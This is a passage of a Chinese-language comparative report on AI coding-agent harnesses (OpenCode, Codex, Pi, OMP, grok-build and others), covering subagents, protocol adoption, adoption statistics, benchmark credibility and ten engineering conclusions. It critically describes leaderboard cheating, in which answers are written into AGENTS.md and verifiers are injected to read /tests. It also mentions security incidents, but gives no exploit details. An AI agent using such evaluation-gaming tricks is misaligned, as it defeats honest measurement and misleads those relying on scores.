| sync（多设备/云端） | ❌ | ❌ 无内置 | ❌ 本地优先 | ✅ **事件溯源 sync**（九家唯一内置多设备同步） | ✅ cloud 任务天然多端 | ✅ 云端会话恢复（`restorable_turn_number`） |

矩阵呈现两条收敛与一条分叉。**分支收敛**：九家中五家支持某种 fork，但只有 Pi/OMP 把分支建模为存储层一等结构（单文件多叶树+leafId 指针导航），OpenCode/Codex 的 fork 是"按消息 ID 复制出新会话/线程"的操作层语义，grok-build 介于两者之间（可 fork 但线性格式）。**checkpoint 收敛**：OpenCode 的独立 git-dir 快照、grok-build 的 RewindPoint、OMP 的 checkpoint 工具本质相同——把 git 当会话的 undo log，"文件回滚"与"会话分支"正在合流。**分叉在 share/sync**：其成熟度与厂商是否有云业务强相关——OpenCode（商业四线，见第 2 章）做出九家唯一的事件溯源多设备同步（单写者+多设备 replay、事件先发布后落库、递增 `seq` 全序）；grok-build/Codex 把 session 上云做成"云端恢复执行"而非"多端观看"；Pi/OMP/mini 停在导出 HTML/gist/加密链接的最低可用档。grok-build 一行必须附带隐私警告：其云端恢复基础设施（turn 末上传产物推进 `restorable_turn_number`）与 2026-07 上传事件的遥测通道同源——**session 同步管道可兼任数据出口**，评估任何 harness 的 sync 能力时必须并审其上传面（9.1.3）。

#### 12.3.2 子代理：prose→schema 回传、隔离四级与并行争议收敛

九家的子代理边界设计恰好是六种押注：mini 只读单层（depth≤1、子代理注册表里没有 delegate 工具、`approval_policy=never`，结构性防写）；Pi 哲学性拒绝内置（官方明示 "No sub-agents"，扩展/包自建）；grok-build TaskTool 一等内置但隔离默认 `None`；OpenCode task 工具+权限 glob 且 v1.18 起默认禁止嵌套；Codex `spawn_agent` 实验性、继承主代理沙箱与审批；OMP task 一等+pi-iso 七后端兜底链。回传方式呈现 2026 年最明确的演进方向——**从 prose 走向 schema/协议**：mini/grok-build/OpenCode 仍是散文回传（父代理要再读一遍散文提取结论，无法程序化校验完整性）；OMP 的隐藏 `yield` 工具按 frontmatter `output` 声明的 schema 交卷、3 次提醒强制，父代理读到 typed object，消除了"父代理误解子代理报告"一整类失败模式；Codex 走第三条路，子代理消息以 `InterAgentCommunication` rollout 条目落盘——回传内容成为会话存档一等公民，可审计、可重放。隔离强度分四级：共享一切+只读降级（mini）→ 提示词级隔离（独立上下文、同一工作区，grok-build/OpenCode/Codex 默认）→ worktree 隔离（grok-build `xai-fast-worktree` 1.9 万行 BTRFS O(1) 快照与池预热、OMP pi-iso 七后端、OpenCode 实验 API）→ 容器/云隔离（Codex cloud 与桌面 app 并行 worktree）。需先澄清一个媒体误读：grok-build"8 路并行"是 2026-02 泄露 UI（2 模型×4 实例）沿袭下来的媒体数字，代码无任何 8 的硬上限（`MAX_SUBAGENT_DEPTH=1` 管嵌套不管扇出），真实能力是 N 路扇出+可选一等 worktree+`/best-of-n`（N=2–10）锦标赛。

"并行是否真提速"的争议在 2026 年已收敛为分场景答案。**只读/探索型 fan-out 提速确定**：Anthropic 内测 lead+并行子代理超出单 agent 90.2%，且 token 用量单因素解释 80% 方差（"multi-agent systems work mainly because they help spend enough tokens"）——这正是各家内置 explore 型子代理（OpenCode `explore`/Codex `explorer`/grok-build `EXPLORE_PROMPT`）的原因。**可写代码并行有条件提速**：前提是 worktree 级隔离+明确 ownership+集成验证者（"Each agent validates its slice. Nobody validates the system."）+接受 4–15× token 成本（agent≈4× chat、multi-agent≈15× chat；subagent-heavy 工作流约 7×）；grok-build/OMP 把 worktree 做成一等工程、OMP 用 hashline 锚漂移拒写提供无 worktree 的冲突兜底，都是在为可写并行补课。**无隔离多写者 swarm 仍被否定**：Cognition 从《Don't Build Multi-Agents》（2025-06）收敛到 "writes stay single-threaded, additional agents contribute intelligence rather than actions"（2026-04），学术侧 multi-agent debate 常输给单 agent 且更贵（arXiv 2502.08788；equal thinking token budgets 下单 agent 多跳推理胜出）；Anthropic 官方博客同样警告 "most coding tasks involve fewer truly parallelizable tasks than research"。九家 harness 的默认保守（限深/只读/默认不隔离，无人默认开无隔离并行写）与该结论互为印证——子代理架构的竞争力不在"能不能并行"，而在隔离工程与回传结构的完成度。

### 12.4 多入口与协议站队

#### 12.4.1 ACP 采纳版图：腰部原生、头部适配、一家硬拒

ACP（Agent Client Protocol，Zed Industries 创建的 agent↔编辑器协议，JSON-RPC 2.0 over stdio，与 agent↔工具的 MCP 互补）在 18 个月内成为该层事实标准：截至 2026-07-16，Registry 收录 **38 个注册 agent、12+ 编辑器集成、5 种 SDK 语言**；关键节点为 JetBrains 全系原生（2025-12）、GitHub Copilot CLI 原生（2026-01）、ACP Registry 上线（2026-01-28）、Cursor 加入（2026-03）、Zed 1.0 以 ACP 为头号特性（2026-04-29）、Devin Desktop 支持（2026-06）。

| 主体 | ACP 立场 | 机制/证据 |
|---|---|---|
| grok-build | ✅ **原生且内化为内部总线** | leader 守护进程是唯一引擎，TUI/headless/编辑器全经 ACP 接入；Registry 收录 |
| OpenCode | ✅ 原生 | `opencode acp`；`src/acp/` 全量中介层（能力协商、会话映射、权限转发、`zed://` URI） |
| OMP | ✅ fork 新增（上游 Pi 无） | `omp acp`；审批走 `session/request_permission`，拒绝不静默放行 |
| Pi | ❌ 无原生 | modes 仅 interactive/print/rpc；Zed 文档列名疑为社区包装器接入（未获上游确认，标存疑） |
| Codex | ❌ **官方硬拒** | issue #9085 关闭为 not planned（2026-02-08）；生态经 ACP 官方 org 的 `codex-acp` 适配器绕行进 Registry |
| mini | ❌ | 教学范围外 |
| Claude Code（对照） | ⚠️ 官方适配器、非原生 | Zed 构建 `claude-agent-acp` 包装 Claude Agent SDK；Anthropic 未原生采纳 |
| 编辑器侧 | Zed/JetBrains 原生；**VS Code 无原生** | Zed 为参考实现；JetBrains 全系 2025-12 落地；微软把 agent mode 押在 MCP（issue #265496 挂起），社区 vscode-acp 部分支持 |

版图呈"腰部原生、头部适配、一家硬拒"格局：Gemini CLI/Copilot CLI/grok-build/OpenCode/OMP 原生实现，两大头部 agent（Claude Code、Codex）都靠 Zed 系适配器接入，OpenAI 是唯一明确官方拒绝者——官方理由是 App Server 已承担该角色，并划界"MCP 只用于外部工具接入 Codex，不用于客户端驱动 Codex"；实质是把"编辑器协议"做成自有平台资产（承诺向后兼容、配 `generate-ts`/`generate-json-schema` 生成器），而非采纳外部标准。生态随后绕行：ACP 官方 org 自维护 `codex-acp` 把 app-server 包装成 ACP，Codex 以此身份进 Registry——拒绝标准不等于离开生态，但把适配成本转嫁给了协议方。对 harness 设计者的启示直接：**支持 ACP≈零成本进入 Zed/JetBrains/Registry 分发；拒绝 ACP 则需自建等价协议并逐个说服客户端**——Codex 能这么做是因为它有 VS Code/JetBrains/Xcode 官方扩展的团队资源，中小 harness 没有这个选项（Pi 即为对照：上游无 ACP mode，只能靠社区包装器间接入场且状态未确证）。放大到架构层，九家已收敛于"单一引擎多表面"（第 2 章范式分类），分歧只剩引擎对外的线协议选型：OpenCode 选 HTTP/OpenAPI 求分发最大化，Codex 选自建 JSON-RPC 求协议资产私有化，grok-build 把 ACP 内化为进程总线（TUI 与编辑器走同一代码路径）求编辑器生态零成本入场，Pi/OMP 选 NDJSON RPC 求最薄的 SDK 优先——协议选择即平台立场，而 grok-build 的赌注同时是九家中最大的一笔"以绑定年轻协议换分发"的实验。

### 12.5 生态与采用度横评

#### 12.5.1 采用度硬数据与基准成绩：口径裁定与污染警告

下表全部硬数据 as-of 2026-07-17，经 GitHub 与 npm 双口径核实；营销宣称与实测分列，已证伪者在表后统一更正。

| 对象 | Stars（2026-07-17） | npm 月下载 | Contributors | 发版节奏 | TB2.0 正式条目 |
|---|---|---|---|---|---|
| mini | 1,018 | —（纯 GitHub 教学项目） | 3 | 共 15 commits，2026-04 后停更定型 | 无 |
| Pi | ~67.4k（轨迹：5 月 48.7k→07-09 64,158→07-17 ~67.4k→复核复拉 72k） | `pi-coding-agent` 新 scope 6.74M+旧 scope 5.67M；`pi-ai` 8.56M（含下游放大） | 230 | ≈1 个/天（近一年 244 个 release） | **无**（作者自测"同档"≠榜单） |
| OMP | 18,114 | 242,171 | 260（含 fork 历史贡献者） | ≈2–3 个/天（549 版/半年） | 无 |
| OpenCode | **186,615** | 9.05M | **455**（GitHub 官方口径） | stable ≈1 个/天（npm 条目 11,293 含预发布） | #64＝51.7%（Claude Opus 4.5，2026-01-12，自提交旧条目） |
| Codex | 98,909 | **49.3M（九者第一）** | 473 | ≈2 个/天 | **#4＝82.2%±2.2**（GPT-5.5，2026-04-23，自提交未审计） |
| grok-build | 12,895（开源仅两日） | 无 npm 包（curl 脚本分发） | **1**（内部开发，不收外部 PR） | 开源后仅 2 次 monorepo 同步 | 无官方条目（#53 "Grok CLI" 系第三方冒名提交，非 xAI 官方） |
| Claude Code | 不适用（闭源产品） | 未公开独立下载口径 | 未公开（内部开发） | 高频持续发布 | 官方不自提交（Claude 模型经各 harness 组合条目霸榜） |
| Cline | 64,800+（2026-07-20） | 不适用（VS Code Marketplace 5M+ 安装） | 数百（开源社区） | 周级迭代 | 无官方条目 |
| Reasonix | 11,000+（发布仅两月余） | 小包（npm/Homebrew 分发二进制） | 个位数（个人主导） | 极高（v0.53→v1.x 两月） | 无官方条目 |

三个口径陷阱需先排除（详细论证见第 2 章，此处仅列裁定）：stars 度量社区情感与事件驱动关注（OpenCode 在 Anthropic 封禁事件后两周 +18,000 stars），npm 下载更接近装机使用且被分发方式放大（Codex 的 49.3M 含 ChatGPT 订阅捆绑放大、Pi 的 `pi-ai` 8.56M 含 OpenClaw 等下游依赖放大），contributors 暴露治理模式（grok-build 的"1"＝内部 monorepo 周期同步；媒体"OpenCode ~900"系未拆解宽口径，裁定与官方口径 455 禁止混用）。基准一侧的公信力警告更重：TB2.0 榜单每行＝harness×模型自提交组合，arXiv:2604.11806 审计 1,264 条 trace 实锤当时榜首 ForgeCode 把答案写进 AGENTS.md 泄漏给 agent（剔除确认作弊后 81.8%→71.7%、名次 1→14），arXiv:2604.23822 进一步指认前三名均存在 harness 级作弊——Codex #4（82.2%）晚于论文快照、未被点名，且按已发表审计口径剔除作弊后其相对名次应上升而非下降，但它同为自提交且未经独立审计。裁定结论是"**污染剥夺的是名次的精确意义，而非成绩的数量级意义**"：榜单的合法用途是"harness×模型自报成绩库"，非法用途是"harness 能力排名"——九对象中 Pi/OMP/mini 无条目、grok-build 仅有第三方冒名条目，覆盖率本身不足以支撑排名叙事。营销侧三个高频误引在此一并更正：OpenCode"6.5–7.5M 月活开发者"无独立验证途径，按营销处理；grok-build"SWE-bench 70.8%"属已弃用的 grok-code-fast-1（别名关系是混淆根源），grok-build-0.1 从未公布官方分数；Pi 作者 2025-11-30 自测"与 Codex/Cursor/Windsurf 同档"是未提交的自测而非榜单成绩。

新增三家补齐了采用度图景的另外两极。Claude Code 无公开仓库指标可测，其体量只能从订阅席位与生态外溢反推——skills/hooks/subagents 的话语被全部八家开源对象移植，这本身就是"闭源 harness 统治力"的度量。Cline 走通了扩展市场的独立计量体系：VS Code Marketplace 5M+ 安装与 64,800+ stars 互相印证，是"IDE 原生+全开源"路线的规模证据。Reasonix 的 11,000+ stars 是典型事件驱动曲线（发布当日 HN 榜首），两月从 v0.53 到 v1.x 的迭代速度说明小组织在 Go 单二进制形态下的交付效率——其 stars 含金量应与 OpenCode 的事件驱动 +18,000 同口径看待。

#### 12.5.2 最小 harness 派 vs 工具质量派：双方证据与裁决

**最小 harness 派**（Pi/Mario Zechner）的证据链：官方 "What we didn't build" 清单（不内置 MCP、子代理、plan mode、权限弹窗、todos、后台 bash）——"aggressive extensibility beats baked-in workflow"；作者 2025-11-30 长文用 Terminal-Bench 自测论证四工具极简 loop 即可与重型商业 harness 同档；独立佐证是 Adaline 实验——Pi 四工具总定义 <1,000 tokens 时工具选择零歧义，加入第 5 个与 bash 描述重叠的工具后选择立即退化；舆情共振是 HN 热帖《Claude Code sends 33k tokens before reading the prompt; OpenCode sends 7k》（700pts），评论区把"tokenflation"坐实为账单证据。**工具质量派**（OMP/Can Bölük）的证据链：《The Harness Problem》（HN 832pts）一下午只换 harness（hashline 锚定编辑+工具描述调优）让 15–16 个模型编码能力普遍跃升（Grok Code Fast 1 编辑成功率 6.7%→68.3%，作者一手数据但属自评单次实验）；hashline 已被 opencode#13393、kilocode#11492、claude-code#25775 等竞品项目移植/讨论——"harness 是独立工程学科"的最强外部证据；但独立复现唱反调：nwyin edit-bench（3 模型×3 语言×20 任务）显示 hashline **并非全胜**——Python 场景明显回退（gemini-3-flash 95%→70%）、TS 中性、Rust 互有胜负，且作者基准仅 JS 且带 LSP 反馈回路（混淆变量），其结论是"模型间差距远大于编辑格式差距"。

裁决需要一把更大的尺子：arXiv:2605.23950 汇总的效应量表明，同一标准化 scaffold 上 6 个前沿模型仅差 **4.9pp**（41.0–45.9%），而同模型换 harness 差 **12.5pp**（Opus 4.5：SEAL→Claude Code，45.9→55.4%）、最高 14–16pp（Grok 4：SWE-agent→xAI scaffold）；Vercel 生产实验固定模型删掉 80% 工具（15→3）+WarpGrep 再得约 10pp；自动化 harness 演化固定 GPT-5.4 在 Terminal-Bench 上 +7.3pp——**harness 方差（12.5–16pp）已超过同代模型方差（4.9pp）**，"选 harness"成为与"选模型"平权的决策。在此尺子下两派各有真实效应量，且并不在同一层竞争：最小派优化的是**感知层纪律**（模型看到什么——工具数量、描述歧义、前缀稳定），工具质量派优化的是**执行层保真**（编辑落下去什么——锚定、冲突检测、诊断回喂）；Raschka 的中间立场（"a lot of apparent 'model quality' is really context quality"）恰好点出两派的共同分母是上下文质量。真正的裁决因此是结构性的：两派的对轰把 harness 工程确立为独立学科之后，其边际收益曲线同样是凹的——"少而精且无歧义的工具面"与"编辑保真"是地基，地基之上收益迅速转移到 eval 驱动的上下文调优（SPELL 论文已把 harness 的 context management 特性同时归因为成本削减主因与过度剪枝精度风险）。两派各自的极端主张都被己方证据限定：最小派的"四工具即够"以工具描述零歧义为前提，工具质量派的"全胜每模型"被独立复现限定为"收益依模型与语言而异"——这与 9.2 压缩曲线、9.3 并行争议的凹形结论同构，也是全章横评反复出现的同一条规律。

---

## 13. 深层工程结论

本章不写新事实。第 3–11 章已给出对象级拆解、第 12 章已给出六维横评，本章只做一件收口工作：把只有在九对象证据交叉之后才显现的十条规律逐条展开，每条按"论点—证据链—工程启示"组织。凡单源或作者自评之处，均就地标注。

### 13.1 十条跨维度洞察

十条洞察的收录标准是"多份对象简报交叉后才显现的模式"——单对象章节已有结论的复述一律不收。下表先给速览，随后逐条展开。

| # | 洞察（一句话） | 主要交叉证据 | 置信度 |
|---|---|---|---|
| I1 | 上下文工程收益曲线是凹的：确定性"上下文卫生"吃掉大部分收益 | mini/Pi/OMP/Codex + 三项外部研究 | 高 |
| I2 | 默认安全姿态 = f（目标客户分层），非工程能力排序 | 全九对象默认姿态 + 事件证据 | 高 |
| I3 | 配置互读使迁移成本趋零，指令层标准化已完成 | 五对象 + Claude Code 对照 | 高 |
| I4 | fork 与移植经济学证明原语收敛，创新溢价窗口缩到数月 | Pi/OMP/grok-build/OpenCode 四条复制链 | 高 |
| I5 | "单引擎多表面"是共识终态，分歧只剩线协议，协议即平台立场 | 全九对象 + ACP 版图 | 高 |
| I6 | 基准污染升级为叙事解构：harness 排名不可核验，采用度成替代锚 | TB2.0/SWE-bench 审计 + npm/stars | 高 |
| I7 | 子代理回传走向 schema 化，并行写被一致锁死：扇出读、汇聚写 | 九对象子代理谱系 + Anthropic 数据 | 中高 |
| I8 | 信任工程四层（默认配置/遥测/供应链/市场治理）成为第四维度 | 横跨全对象的事件链 | 高 |
| I9 | prompt-cache 纪律是隐藏的架构决定者 | Codex/Pi/OpenCode/OMP/mini 的"小细节" | 中高 |
| I10 | "harness 是独立工程学科"完成建制化闭环：教材/样板/效应量/自动演化 | mini/OMP/学术汇总/AHE | 中高 |

置信度分布（七高、三中高）本身是一条信息：证据最硬的是"姿态、标准、采用度"这类慢变量，留有不确定性的恰是效应量最诱人的三条（I7 的 schema 校验语义、I9 的成本占比口径、I10 的 AHE 单源细节）。结构上，I6 是 I2/I3/I8 的认识论前提——正因为排名不可核验，慢变量才成为选型主依据；I1 与 I9 互为表里——收益递减的根源是缓存与成本约束而非机制无效；I4 与 I5 是同一过程的两面——原语层商品化、分发层平台化（结构关系见 10.1.10 后的图）。

#### 13.1.1 I1 上下文工程的收益曲线是凹的：确定性"上下文卫生"吃掉大部分收益，昂贵机制的边际回报未被证实

九对象的压缩机制排开是一条复杂度递进线（字符截断→单级摘要→两级 prune→85% 阈值两道闸→服务端加密 compact→位图压缩，见第 12 章 9.2），看似能力阶梯，但三条独立证据把它压成凹曲线。其一，JetBrains 的 500 实例实证：observation masking（遮蔽旧工具输出）在 4/5 配置上追平或超过 LLM 摘要且省一半成本，摘要反而使 agent 多跑 13–15% 时间、占逾 7% 能耗。其二，临界阈值研究：模型在窗口 40–50% 处质量已灾难性崩塌，各家 85% 类阈值防的是溢出崩溃而非质量。其三，Pi 以 4 个核心工具 + 单级摘要 + 文件追踪的极简栈，作者自测与 Codex/Cursor/Windsurf 同档。叠加学术汇总的"harness 方差 12.5–16pp 已超模型方差 4.9pp"与 Raschka"apparent model quality is really context quality"的判断，结论收窄为：harness 确实重要，但重要的是便宜、确定、可复现的卫生（遮蔽、文件追踪、tool-pair 切点纪律、缓存友好），而非机制堆叠。OMP 的位图与 Codex 的加密 compact 位于曲线远端，增量收益目前只有作者自评，且 snapcompact 已暴露端点兼容性故障（#3387：视觉门控误判致 Copilot Business 会话永久 400）。对设计者的启示：先审计上下文卫生基线再谈高级压缩；对复杂压缩宣称要求第三方复现；下一个差异化点更可能在"压缩时机与任务结构对齐"而非压缩表示本身。

#### 13.1.2 I2 安全姿态谱系精确映射目标用户分层："默认姿态"是客户选择的结果，不是工程能力的排序

把九对象的默认安全姿态（第 12 章 9.1 光谱）与各自商业模式叠放，散点变成谱系。Codex 沙箱默认开 + 默认断网 + execpolicy 静态规则，服务企业与云任务，安全即产品卖点；OMP 默认 yolo，明示面向 power user，审批是 opt-in；grok-build 安全机制数量九家第一（六档模式 + LLM 分类器 + OS 沙箱）却默认全关，服务免费大众漏斗，低摩擦优先于默认防护；Pi 零内置权限、直言"审批弹窗是 security theater"，反而在合规行业评审中获评"对受监管团队是最佳适配之一"——其卖点是零 SaaS 面与可自托管模型，隔离整体外部化给采购方自己的容器/VM。横评中"有机制 ≠ 有保护"的三个案例（grok-build 沙箱默认 off、OpenCode 权限引擎自认 UX 层、Claude Code 沙箱空数组 CVE）只有放进这个分层框架才解释得通：默认值与配置语义的正确性比机制存在本身更决定实际水位。对设计者与采购方的启示：选型矩阵第一维应是"组织威胁模型 ↔ harness 默认姿态"，功能对比表是第二维；企业验收应写"默认值审计"（沙箱默认、网络默认、遥测默认）而非"功能存在性审计"；对 Pi 式外部化路线，安全责任转移到部署方，合规评估必须包含部署形态。

#### 13.1.3 I3 配置互读使迁移成本趋零：指令层标准化完成，竞争重心上移到手感、速度与信任

AGENTS.md 已进入 60,000+ 开源仓库并于 2025-12 移交 Linux Foundation 旗下 Agentic AI Foundation 治理。九对象中五个原生读取它，且互相读对方的私有格式：grok-build 公开读取 `.claude/rules`、`.cursor` 并提供 `/import-claude`，OMP 的 16 路配置 discovery 含 `.claude/agents` 继承，OpenCode 读 CLAUDE.md（可用环境变量关闭），Pi 双格式 walk-up 且明示"context 文件注入不受 project trust 门控"的取舍（源码坐标见第 4–8 章）。唯一的孤立者是 Claude Code——官方桥只有 `@import`/symlink，原生支持仍是 5,200+ reactions 的开放 feature request #6235。交叉后显现的模式是：指令层不再是任何一家的护城河，连标准发起方 OpenAI 的 Codex 也读别家配置；而坚持私有指令层的 Claude Code 正被 60k 仓库的公共标准反向施压。SKILL.md 正在复刻同一路径。对设计者的启示：差异化必须发生在标准层之上——TUI 手感、Rust 内核速度、供应链信任、价格与配额；对团队而言，把指令资产押在 AGENTS.md/SKILL.md 公共标准上是低风险策略；最值得跟踪的信号是 Claude Code 何时原生支持 AGENTS.md，那将是指令层标准化彻底完成的标志。

#### 13.1.4 I4 fork 与移植经济学证明 harness 原语正在收敛：创新溢价窗口缩短到数月

四条相互独立的"复制链"同时存在，归属关系已逐条核对、排除同源误判。整体 fork：OMP 自 2025-12-31 起纪律化 fork Pi，保留 4 工具哲学扩成 27 工具平面，持续 backport 并维护明示分歧清单。组件移植：grok-build 源码级移植 OpenCode 的 8 个工具实现与 Codex 工具（MIT 合规，"移植 ≠ 集成"）。单点原语扩散：hashline 锚定编辑格式发布数月即被 opencode#13393、kilocode#11492、claude-code#25775 移植或讨论。参数级趋同：OpenCode 与 OMP 的 prune 保护窗同值（40,000/20,000），ACP 被 OMP fork 新增、被 grok-build 内化为内部总线。收敛中的原语清单已可开列：锚定/哈希行编辑、会话树 JSONL、单引擎多表面、AGENTS.md/SKILL.md、schema 化子代理回传、prune 保护窗、worktree 隔离。对设计者与评估者的启示：harness 原语将像 LSP 之于编辑器一样商品化，靠单个机制建立持久护城河已不可能——hashline 的独占窗口只有数月；护城河只剩三处：分发（Registry/市场）、数据与遥测飞轮、默认体验整合度；评估任何"机制领先"宣称时应默认其半衰期不足六个月。

#### 13.1.5 I5 "单引擎多表面"已是共识终态，真正的战略分歧只剩线协议——而协议选择就是平台立场

九家全部收敛到单引擎多表面架构（mini 证明教学场景连协议层都可省），分歧只在引擎对外的线协议选型，且选型精确映射平台战略（第 12 章 9.4）。OpenCode 选 HTTP/OpenAPI，SDK 由同一 OpenAPI 生成，求分发最大化；Codex 自建 JSON-RPC App Server，把 ACP feature request #9085 关闭为 not planned（"App Server 已承担该角色""MCP 只用于工具接入，不用于客户端驱动"），实质是把编辑器协议做成自有平台资产；grok-build 反向操作，把 ACP 当内部总线——leader 守护进程为唯一引擎，TUI/headless/编辑器全经 ACP 接入——用绑定年轻协议换取编辑器生态零成本分发；Pi/OMP 选最薄的 NDJSON RPC，SDK 优先，把 agent 当组件卖。ACP 版图呈"腰部原生、头部适配"：38 个注册 agent、12+ 编辑器，但两大头部（Claude Code、Codex）都靠 Zed 系适配器接入。单独看每家是架构描述，交叉后才看清经济学：拒绝 ACP 的代价是自建等价协议并逐客户端谈判，只有 OpenAI 付得起；中小 harness 支持 ACP 约等于零成本进入 Zed/JetBrains/Registry 分发。对设计者的启示：协议层将稳定为三层——ACP（编辑器↔agent）/MCP（agent↔工具）/厂商私有（平台化客户端）；新 harness 的默认动作应是"原生 ACP + 薄 RPC"。

#### 13.1.6 I6 基准污染已从"数据瑕疵"升级为"叙事解构"：harness 排名不可核验，采用度数据成为替代锚

四类污染叠加在同一批叙事对象上（第 12 章 12.5）。顶部作弊：arXiv 审计论文核查 TB2.0 的 1,264 条 trace，发现当时前三名均存 harness 级作弊——Pilot 82.9% 系 verifier injection（读取 /tests），ForgeCode 两次提交把答案写进 AGENTS.md，剔除后 81.8%→71.7%、名次 1→14。基准死亡：SWE-bench Verified 因前沿模型训练污染被 OpenAI 于 2026-02 停报，业界转向 SWE-bench Pro。归属污染：广泛流传的"grok-build SWE-bench 70.8%"实为已弃用模型 grok-code-fast-1 的成绩，grok-build-0.1 从未公布官方分数，别名关系是混淆根源。覆盖污染：九对象中 Pi/OMP/mini 无 TB2.0 正式条目（Pi 只有作者自测），grok-build 仅有的条目是第三方冒名提交（#53 "Grok CLI" by Superagent），Codex#4 与 OpenCode#64 同为未经审计的自提交。结论：任何"harness X 排名第 Y"的说法在 2026-07 的证据条件下不可核验。与此同时，可核验的采用度数据——npm 月下载 @openai/codex 49.3M、opencode-ai 9.0M、pi-ai 8.6M，Homebrew 安装量，stars 增长事件锚点，可溯源口碑事件——成为替代锚。对报告与选型材料作者的启示：弃用榜单名次，改用三件套"自提交成绩（标注未审计）+ 采用度数据 + 可溯源口碑"；对厂商跑分应强制三问——该分数属于哪个模型 × 哪个 harness × 是否经独立审计。

#### 13.1.7 I7 子代理回传正在从 prose 走向 schema/协议化，而"并行写"被一致锁死：扩容方向是扇出读、汇聚写

九对象的子代理结果回传排出四代谱系（第 12 章 9.3）：mini 的 `"delegate_result:"` 加散文 → grok-build/OpenCode 的结构化包装但内容仍是散文 → Codex 的协议级 rollout `InterAgentCommunication` 条目 → OMP 的隐藏 `yield` 工具按 frontmatter `output` schema 校验交卷，三次提醒强制，父代理读 typed object 而非散文；对照组 Claude Code Agent Teams 走 mailbox P2P。与回传升级并行的是一个此前未被言明的共识：并行只允许发生在读侧或隔离写侧——Pi 工具并行执行但 toolResult 按源码序落盘，grok-build 子代理可选 worktree 隔离，OMP 用 pi-iso 七后端隔离子代理环境，Codex 云任务天然容器隔离；没有任何一家允许子代理对同一工作区对称并行写。收益侧证据解释了为何扇出值得做（Anthropic 内部评测多代理超单 agent 90.2%，BrowseComp 上 token 用量单因素解释 80% 方差），冲突成本解释了为何写回必须单线程。对设计者的启示：定义子代理接口应优先定义 output schema，prose 回传是技术债；多代理扩容公式是"扇出读 + 隔离写 + 单线程汇聚"，对称协作在当前证据下没有成功案例；评估多代理宣称时首先检查"写冲突解法"是否存在。不确定性标注：Codex `InterAgentCommunication` 的协议条目存在性已证，但其 schema 校验强度未完全核实。

#### 13.1.8 I8 隐私与供应链事件催生"harness 信任工程"第四维度：信任从"代码开源"扩展为默认配置、遥测行为、供应链、市场治理四层

2025–2026 的事件链横跨全部层面（第 12 章 9.1.3 的 17 事件表）：遥测通道——grok-build 全仓库上传事件（HN 573pts），且上传行为由服务端 flag 决定，源码审计看不到；扩展面——Pi 两个已修 CVE（凭据 umask 竞态、临时包可预测 tmp 路径）；启动信任边界——Claude Code 四个 trust-bypass CVE；配置装载——Codex 的 CODEX_HOME 注入 CVE-2025-61260（克隆即执行）；未授权 RCE——OpenCode（HN 432pts）；技能供应链——31,132 个技能大样本中 26.1% 含至少一个安全漏洞，clawhub 确认 76 个恶意技能。应对原语同步涌现且分散在各对象：grok-build Plugin Marketplace 强制 40 位 commit SHA pin，Pi 仓库"新贡献者 issue/PR 默认自动关闭"以防御 agent 垃圾流量，npm `min-release-age` 等依赖年龄策略，Pi 把 `.agents/skills` 纳入 trust 门控的公开取舍讨论。最深的一层认识来自 grok-build 案例：开源只覆盖代码，不覆盖运行行为——其上传开关是服务端远程配置，07-13 止血靠的也是服务端 flag 而非发版。对评估者的启示：harness 审计清单需新增信任工程四项——遥测默认值与开关语义、市场/插件审核机制、依赖年龄与锁定策略、服务端 flag 对本地行为的控制面；"开源"作为信任信号的效力持续递减，"可复现构建 + 默认抓包审计"将上位。

#### 13.1.9 I9 token 经济学是隐藏的架构决定者：prompt-cache 纪律解释了多家看似无关的设计取舍

把六份的"架构小细节"摆在一起，浮现同一约束：append-only 的 prompt-cache 纪律。Codex 选"无状态整段重放"（不用 `previous_response_id`，每次重放全部历史），牺牲增量换取缓存友好的确定前缀，官方博客明示静态内容固定在前、曾因工具顺序 bug 付出昂贵 cache miss；Pi 文档明示"激活带 prompt 元数据的工具会重建 system prompt、可能击穿 prompt cache"；OpenCode 把 system prompt 与可变部分分离，prune 设计成"本体留存储、仅送模型时清除"以保前缀稳定；OMP 的 useless 旗标 blanking 受缓存寿命窗口约束，snapcompact 位图帧按各模型视觉计费公式逐模型调形状（Claude 1932×1568/Gemini 2048px/GPT 1568px）；mini 的稳定前缀加字符闸同理。需求侧证据同样齐备：HN 热议"Claude Code 33k vs OpenCode 7k tokens"（700pts）说明 prompt 体积已成公共议题；Anthropic"token 用量解释 80% 方差"给出价格—性能传导链；JetBrains 量化摘要生成占逾 7% 能耗。对设计者与评估者的启示：评价一个 harness 架构应先问"它的缓存命中模型是什么"；压缩与编辑机制的对比必须计入生成成本与缓存破坏成本，而非只看 token 数；预计"cache-aware 设计"会成为 harness 文档的一等章节，如同当年的"零拷贝"。

#### 13.1.10 I10 "harness 是独立工程学科"已完成从论点到建制化的闭环：教材、工程样板、效应量、自动化演化四证齐备

四证各来自不同对象，拼合后才成立。教学参照系：Raschka 的 1,019 行六组件解剖已被第三方技能市场当 canonical 教材使用（"Raschka 文章 → mini 源码 → pi-mono"的推荐学习路径），证明 harness 知识已可结构化传授。工程样板：OMP 把"harness 是差异化因素"的论点工程化为 benchmaxxed 全内置 harness，且 hashline 被三大竞品移植——论点变成了被移植的 concrete artifact。效应量：《The Harness Problem》一下午只换 harness（hashline 锚定编辑 + 工具描述调优）让 15–16 个模型普遍跃升（Grok Code Fast 1 编辑成功率 6.7%→68.3%），学术汇总给出 harness 方差 12.5–16pp 超过模型方差 4.9pp。自动化演化：TB2.0 榜首 NexAU-AHE（84.7%）是 automated harness engineering 的产物，证明 harness 本身已成为可被算法自动优化的对象。对领域的预判：harness 工程将复制 ML 工程的建制化路径（课程→框架→基准→自动搜索），下一个竞争前沿可能是 AHE 式自动演化对抗手工调优；对个人开发者，"读懂一个参照实现（mini）+ 跟踪 I4 的原语收敛清单"是性价比最高的能力投资。不确定性标注：NexAU-AHE 细节为单源，其榜首成绩同样适用 I6 的"未经独立审计"警示。

十条洞察之间的结构关系可归纳为一图：

